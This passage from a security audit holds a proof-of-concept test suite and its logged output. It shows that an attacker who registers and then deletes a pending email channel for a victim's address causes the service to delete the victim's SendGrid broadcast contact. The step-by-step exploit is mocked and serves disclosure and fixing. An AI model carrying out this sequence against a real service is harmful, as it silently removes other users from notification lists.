  harness.verifications.find((verification) => verification.user_id === userId)
    ?.token

const pocLog = (...args: unknown[]) => {
  if (globalThis.process?.env?.POC_LOG === '0') {
    return
  }
  console.log(...args)
}

describe('PoC: deleting an unverified email channel removes another user SendGrid contact', () => {
  beforeEach(() => {
    harness.channels.length = 0
    harness.verifications.length = 0
    harness.contacts.clear()
    harness.sendgridRequests.length = 0
    vi.clearAllMocks()
    harness.getDatabase.mockImplementation(() => createMemoryDb())
    installSendGridFetchMock()
  })

  afterEach(() => {
    vi.unstubAllGlobals()
  })

  it('lets an attacker delete a pending channel and thereby erase the victim broadcast contact', async () => {
    const env = createEnv()
    const execution = createExecutionCtx()
    const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
    const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

    // -------------------------------------------------------------------------
    // PHASE 1 — Attacker registers a pending email channel for the victim's
    // address. POST /email only rejects an email that is already *verified*
    // for another user, so a not-yet-verified victim address is accepted.
    // Mixed-case input is normalized; ownership of this local row is the only
    // authority the attacker needs later.
    // -------------------------------------------------------------------------
    pocLog(
      '=== PHASE 1: attacker creates a pending channel for victim email ===',
    )

    const attackerCreate = await postEmailChannel(
      attackerJwt,
      VICTIM_EMAIL_INPUT,
      env,
      execution.ctx,
    )

    expect(attackerCreate.status).toBe(200)
    const attackerCreateBody = (await attackerCreate.json()) as {
      channelId: string
    }
    const attackerChannelId = attackerCreateBody.channelId
    const attackerChannel = harness.channels.find(
      (channel) => channel.id === attackerChannelId,
    )

    pocLog('attacker channel id:', attackerChannelId)
    pocLog('attacker channel status:', attackerChannel?.status)
    pocLog('attacker submitted email:', VICTIM_EMAIL_INPUT)
    pocLog('attacker stored target:', attackerChannel?.target)
    pocLog('SendGrid HTTP after attacker create:', harness.sendgridRequests)
    pocLog('SendGrid contacts after attacker create:', [
      ...harness.contacts.keys(),
    ])

    expect(attackerChannel).toBeDefined()
    expect(attackerChannel?.user_id).toBe(ATTACKER_USER_ID)
    expect(attackerChannel?.status).toBe('pending')
    expect(attackerChannel?.target).toBe(VICTIM_EMAIL)
    expect(harness.contacts.size).toBe(0)
    expect(harness.sendgridRequests).toEqual([])

    // -------------------------------------------------------------------------
    // PHASE 2 — Victim also creates a channel for the same email. The unique
    // index is (user_id, channel, target), so two users may share one target
    // while both rows remain pending. No SendGrid contact exists yet.
    // -------------------------------------------------------------------------
    pocLog(
      '=== PHASE 2: victim creates their own pending channel for the same email ===',
    )

    const victimCreate = await postEmailChannel(
      victimJwt,
      VICTIM_EMAIL,
      env,
      execution.ctx,
    )

    expect(victimCreate.status).toBe(200)
    const victimCreateBody = (await victimCreate.json()) as { channelId: string }
    const victimChannelId = victimCreateBody.channelId
    const pendingRowsForEmail = harness.channels.filter(
      (channel) => channel.target === VICTIM_EMAIL,
    )

    pocLog('victim channel id:', victimChannelId)
    pocLog(
      'pending rows for shared email:',
      pendingRowsForEmail.map((channel) => ({
        id: channel.id,
        user_id: channel.user_id,
        status: channel.status,
      })),
    )

    expect(victimChannelId).not.toBe(attackerChannelId)
    expect(pendingRowsForEmail).toHaveLength(2)
    expect(
      pendingRowsForEmail.every((channel) => channel.status === 'pending'),
    ).toBe(true)
    expect(putContactRequests()).toHaveLength(0)

    // -------------------------------------------------------------------------
    // PHASE 3 — Victim completes verification. POST /email/verify marks their
    // row verified and waitUntil()s addContactToList(victimEmail, victimUserId).
    // Real contacts.ts issues PUT /v3/marketing/contacts. That contact is what
    // the attacker later destroys.
    // -------------------------------------------------------------------------
    pocLog(
      '=== PHASE 3: victim verifies and is enrolled in the SendGrid broadcast list ===',
    )

    const victimToken = verificationTokenFor(VICTIM_USER_ID)
    expect(victimToken).toBeTypeOf('string')

    const victimVerify = await verifyEmailChannel(
      victimToken as string,
      env,
      execution.ctx,
    )

    expect(victimVerify.status).toBe(200)
    await execution.flush()

    const victimChannelAfterVerify = harness.channels.find(
      (channel) => channel.id === victimChannelId,
    )
    const attackerChannelAfterVerify = harness.channels.find(
      (channel) => channel.id === attackerChannelId,
    )
    const victimContact = harness.contacts.get(VICTIM_EMAIL)
    const enrollPut = putContactRequests().at(-1)

    pocLog(
      'victim channel status after verify:',
      victimChannelAfterVerify?.status,
    )
    pocLog(
      'attacker channel status after verify:',
      attackerChannelAfterVerify?.status,
    )
    pocLog('SendGrid contact enrolled via HTTP PUT:', victimContact)
    pocLog('add-contact PUT body:', enrollPut?.body)

    expect(victimChannelAfterVerify?.status).toBe('verified')
    expect(attackerChannelAfterVerify?.status).toBe('pending')
    expect(victimContact).toBeDefined()
    expect(victimContact?.email).toBe(VICTIM_EMAIL)
    expect(victimContact?.listIds).toEqual([BROADCAST_LIST_ID])
    expect(victimContact?.userId).toBe(VICTIM_USER_ID)
    expect(enrollPut?.authorization).toBe(`Bearer ${SENDGRID_API_KEY}`)
    expect(enrollPut?.body).toEqual({
      list_ids: [BROADCAST_LIST_ID],
      contacts: [
        {
          email: VICTIM_EMAIL,
          custom_fields: { user_id: VICTIM_USER_ID },
        },
      ],
    })
    const victimContactId = victimContact?.id as string
    expect(victimContactId).toBeTypeOf('string')

    // -------------------------------------------------------------------------
    // PHASE 4 — Exploit. Attacker deletes *their own* still-pending channel.
    // DELETE /:id authorizes by (channel.id, attacker user_id) only — it never
    // checks verified status or whether another user holds the same email.
    // Real searchContact / deleteContact then issue:
    //   POST /v3/marketing/contacts/search/emails  { emails: [victim] }
    //   DELETE /v3/marketing/contacts?ids=<victim contact id>
    // not the safer list-removal URL.
    // -------------------------------------------------------------------------
    pocLog(
      '=== PHASE 4: attacker deletes the pending channel and triggers global SendGrid cleanup ===',
    )

    expect(attackerChannelAfterVerify?.status).toBe('pending')

    const attackerDelete = await deleteChannel(
      attackerChannelId,
      attackerJwt,
      env,
      execution.ctx,
    )

    expect(attackerDelete.status).toBe(200)
    expect(await attackerDelete.json()).toEqual({
      message: 'Channel deleted successfully',
    })
    await execution.flush()

    const attackerChannelAfterDelete = harness.channels.find(
      (channel) => channel.id === attackerChannelId,
    )
    const victimChannelAfterDelete = harness.channels.find(
      (channel) => channel.id === victimChannelId,
    )
    const searchAfterDelete = searchContactRequests().at(-1)
    const deleteAfterAttack = deleteContactRequests().at(-1)

    pocLog(
      'attacker local row after delete:',
      attackerChannelAfterDelete ?? null,
    )
    pocLog('victim local row after delete:', {
      id: victimChannelAfterDelete?.id,
      user_id: victimChannelAfterDelete?.user_id,
      status: victimChannelAfterDelete?.status,
      target: victimChannelAfterDelete?.target,
    })
    pocLog('search HTTP:', searchAfterDelete)
    pocLog('delete-contact HTTP:', deleteAfterAttack)
    pocLog('remove-from-list HTTP:', removeFromListRequests())
    pocLog(
      'SendGrid contact after attacker delete:',
      harness.contacts.get(VICTIM_EMAIL) ?? null,
    )

    expect(attackerChannelAfterDelete).toBeUndefined()
    expect(victimChannelAfterDelete?.status).toBe('verified')
    expect(victimChannelAfterDelete?.user_id).toBe(VICTIM_USER_ID)
    expect(victimChannelAfterDelete?.target).toBe(VICTIM_EMAIL)

    expect(searchAfterDelete?.authorization).toBe(`Bearer ${SENDGRID_API_KEY}`)
    expect(searchAfterDelete?.body).toEqual({
      emails: [VICTIM_EMAIL],
    })
    expect(deleteAfterAttack?.authorization).toBe(`Bearer ${SENDGRID_API_KEY}`)
    expect(deleteAfterAttack?.searchParams).toEqual({
      ids: victimContactId,
    })
    expect(removeFromListRequests()).toHaveLength(0)
    expect(harness.contacts.get(VICTIM_EMAIL)).toBeUndefined()

    pocLog(
      'VULNERABILITY CONFIRMED: attacker-owned pending delete issued DELETE /v3/marketing/contacts?ids=<victim contact>',
    )
  })

  it('rejects a late attacker bind after the victim has already verified', async () => {
    const env = createEnv()
    const execution = createExecutionCtx()
    const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
    const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

    const victimCreate = await postEmailChannel(
      victimJwt,
      VICTIM_EMAIL,
      env,
      execution.ctx,
    )
    expect(victimCreate.status).toBe(200)

    const victimToken = verificationTokenFor(VICTIM_USER_ID)
    expect(victimToken).toBeTypeOf('string')
    const victimVerify = await verifyEmailChannel(
      victimToken as string,
      env,
      execution.ctx,
    )
    expect(victimVerify.status).toBe(200)
    await execution.flush()

    const attackerCreate = await postEmailChannel(
      attackerJwt,
      VICTIM_EMAIL_INPUT,
      env,
      execution.ctx,
    )

    expect(attackerCreate.status).toBe(400)
    expect(await attackerCreate.json()).toEqual({
      error: 'This email address is already linked to another account',
    })
    expect(
      harness.channels.filter((channel) => channel.user_id === ATTACKER_USER_ID),
    ).toHaveLength(0)
    expect(harness.channels).toHaveLength(1)
    expect(harness.channels[0]?.status).toBe('verified')
  })

  it('searches SendGrid on pending delete before victim verify but does not delete a contact', async () => {
    const env = createEnv()
    const execution = createExecutionCtx()
    const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
    const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

    const attackerCreate = await postEmailChannel(
      attackerJwt,
      VICTIM_EMAIL_INPUT,
      env,
      execution.ctx,
    )
    const victimCreate = await postEmailChannel(
      victimJwt,
      VICTIM_EMAIL,
      env,
      execution.ctx,
    )
    expect(attackerCreate.status).toBe(200)
    expect(victimCreate.status).toBe(200)

    const attackerChannelId = (
      (await attackerCreate.json()) as { channelId: string }
    ).channelId
    const victimChannelId = (
      (await victimCreate.json()) as { channelId: string }
    ).channelId

    const attackerDelete = await deleteChannel(
      attackerChannelId,
      attackerJwt,
      env,
      execution.ctx,
    )
    expect(attackerDelete.status).toBe(200)
    await execution.flush()

    expect(searchContactRequests()).toHaveLength(1)
    expect(searchContactRequests()[0]?.body).toEqual({
      emails: [VICTIM_EMAIL],
    })
    expect(deleteContactRequests()).toHaveLength(0)
    expect(removeFromListRequests()).toHaveLength(0)
    expect(harness.contacts.size).toBe(0)
    expect(
      harness.channels.find((channel) => channel.id === victimChannelId)
        ?.status,
    ).toBe('pending')

    const victimToken = verificationTokenFor(VICTIM_USER_ID)
    expect(victimToken).toBeTypeOf('string')
    const victimVerify = await verifyEmailChannel(
      victimToken as string,
      env,
      execution.ctx,
    )
    expect(victimVerify.status).toBe(200)
    await execution.flush()

    expect(harness.contacts.get(VICTIM_EMAIL)?.userId).toBe(VICTIM_USER_ID)
    expect(deleteContactRequests()).toHaveLength(0)
  })

  it('deletes the SendGrid contact when the victim removes their own verified channel', async () => {
    const env = createEnv()
    const execution = createExecutionCtx()
    const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

    const victimCreate = await postEmailChannel(
      victimJwt,
      VICTIM_EMAIL,
      env,
      execution.ctx,
    )
    expect(victimCreate.status).toBe(200)
    const victimChannelId = ((await victimCreate.json()) as { channelId: string })
      .channelId

    const victimToken = verificationTokenFor(VICTIM_USER_ID)
    expect(victimToken).toBeTypeOf('string')
    const victimVerify = await verifyEmailChannel(
      victimToken as string,
      env,
      execution.ctx,
    )
    expect(victimVerify.status).toBe(200)
    await execution.flush()

    const victimContactId = harness.contacts.get(VICTIM_EMAIL)?.id
    expect(victimContactId).toBeTypeOf('string')

    const victimDelete = await deleteChannel(
      victimChannelId,
      victimJwt,
      env,
      execution.ctx,
    )
    expect(victimDelete.status).toBe(200)
    await execution.flush()

    expect(deleteContactRequests()).toHaveLength(1)
    expect(deleteContactRequests()[0]?.searchParams).toEqual({
      ids: victimContactId,
    })
    expect(harness.channels).toHaveLength(0)
    expect(harness.contacts.size).toBe(0)
  })
})
```

### Run

The api-worker Vitest config uses the Cloudflare workers pool. The command below runs the PoC from `workers/api-worker`. Phase logs can be silenced with `POC_LOG=0`.

```bash
pnpm exec vitest run test/unverified-email-channel-sendgrid-contact-deletion.test.ts --reporter=verbose --disable-console-intercept
```

### Test Results

```bash
RUN  v4.1.5 /home/konvati/20md/audit/8-2026/audit-comp-ens/workers/api-worker

=== PHASE 1: attacker creates a pending channel for victim email ===
attacker channel id: fda4c915-0556-4987-994f-e5823c3928da
attacker channel status: pending
attacker submitted email: Victim@Example.COM
attacker stored target: victim@example.com
SendGrid HTTP after attacker create: []
SendGrid contacts after attacker create: []
=== PHASE 2: victim creates their own pending channel for the same email ===
victim channel id: fe2f6613-8ea9-4dce-9080-7ce3c92de7cb
pending rows for shared email: [
  {
    id: 'fda4c915-0556-4987-994f-e5823c3928da',
    user_id: '11111111-1111-4111-8111-111111111111',
    status: 'pending'
  },
  {
    id: 'fe2f6613-8ea9-4dce-9080-7ce3c92de7cb',
    user_id: '22222222-2222-4222-8222-222222222222',
    status: 'pending'
  }
]
=== PHASE 3: victim verifies and is enrolled in the SendGrid broadcast list ===
victim channel status after verify: verified
attacker channel status after verify: pending
SendGrid contact enrolled via HTTP PUT: {
  id: 'e8077e16-8ed5-4616-9f86-fa8849b95e8b',
  email: 'victim@example.com',
  listIds: [ 'ens-broadcast-list' ],
  userId: '22222222-2222-4222-8222-222222222222'
}
add-contact PUT body: {
  list_ids: [ 'ens-broadcast-list' ],
  contacts: [ { email: 'victim@example.com', custom_fields: [Object] } ]
}
=== PHASE 4: attacker deletes the pending channel and triggers global SendGrid cleanup ===
attacker local row after delete: null
victim local row after delete: {
  id: 'fe2f6613-8ea9-4dce-9080-7ce3c92de7cb',
  user_id: '22222222-2222-4222-8222-222222222222',
  status: 'verified',
  target: 'victim@example.com'
}
search HTTP: {
  method: 'POST',
  pathname: '/v3/marketing/contacts/search/emails',
  searchParams: {},
  body: { emails: [ 'victim@example.com' ] },
  authorization: 'Bearer SG.poc'
}
delete-contact HTTP: {
  method: 'DELETE',
  pathname: '/v3/marketing/contacts',
  searchParams: { ids: 'e8077e16-8ed5-4616-9f86-fa8849b95e8b' },
  body: undefined,
  authorization: 'Bearer SG.poc'
}
remove-from-list HTTP: []
SendGrid contact after attacker delete: null
VULNERABILITY CONFIRMED: attacker-owned pending delete issued DELETE /v3/marketing/contacts?ids=<victim contact>
 ✓ ... lets an attacker delete a pending channel and thereby erase the victim broadcast contact 48ms
 ✓ ... rejects a late attacker bind after the victim has already verified 5ms
 ✓ ... searches SendGrid on pending delete before victim verify but does not delete a contact 6ms
 ✓ ... deletes the SendGrid contact when the victim removes their own verified channel 3ms

 Test Files  1 passed (1)
      Tests  4 passed (4)
   Start at  14:57:47
   Duration  21.74s
```

### Test Results Explanation

The main test exercises the real handlers plus production `contacts.ts`. After the victim verifies, the client `PUT`s a marketing contact for `victim@example.com` with `custom_fields.user_id` of the victim and a generated contact id (`e8077e16-…`). The attacker then deletes only their own still-pending row. The same client searches by the shared (normalized) email and `DELETE`s `/v3/marketing/contacts?ids=e8077e16-…`. The safer list-removal URL is not used. The victim’s local channel stays `verified`.
